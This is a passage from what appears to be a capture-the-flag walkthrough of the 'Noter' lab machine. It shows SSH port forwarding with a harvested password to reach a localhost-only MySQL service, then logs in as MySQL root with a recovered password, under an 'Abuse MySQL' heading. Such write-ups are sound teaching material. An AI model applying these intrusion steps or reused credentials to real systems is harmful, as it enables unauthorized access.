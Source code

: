I’ll want to do exactly that, forward ports.

For details on SSH tunneling, check out my [PWK Notes: Tunneling and
Pivoting](/2019/01/28/pwk-notes-tunneling-update1.html) post from 2019.

I’ll use `-N` along with `-L` to create a tunnel from 3306 on my host to 3306
on Noter, allowing me access to a port on Noter that’s only listening on
localhost.

When I run this, it just hangs:

    
    
    oxdf@hacky$ sshpass -p 'ftp_admin@Noter!' ssh -N -L 3306:localhost:3306 ftp_admin@10.10.11.160 
    

But `netstat` shows that the `ssh` process on my host is now listening on
3306:

    
    
    oxdf@hacky$ sudo netstat -tnlp | grep 3306
    tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      9237/ssh            
    tcp6       0      0 ::1:3306                :::*                    LISTEN      9237/ssh
    

And I can connect and it works:

    
    
    oxdf@hacky$ mysql -h 127.0.0.1 -u root -pNildogg36
    mysql: [Warning] Using a password on the command line interface can be insecure.
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 771
    Server version: 5.5.5-10.3.32-MariaDB-0ubuntu0.20.04.1 Ubuntu 20.04
    
    Copyright (c) 2000, 2022, Oracle and/or its affiliates.
    
    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.
    
    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.
    
    mysql>
    

### Abuse MySQL

#### Enumeration

The MySQL access is as the root user:

    
    
    mysql> select current_user();
    +----------------+
    | current_user() |
    +----------------+
    | root@localhost |
    +----------------+
    1 row in set (0.08 sec)
    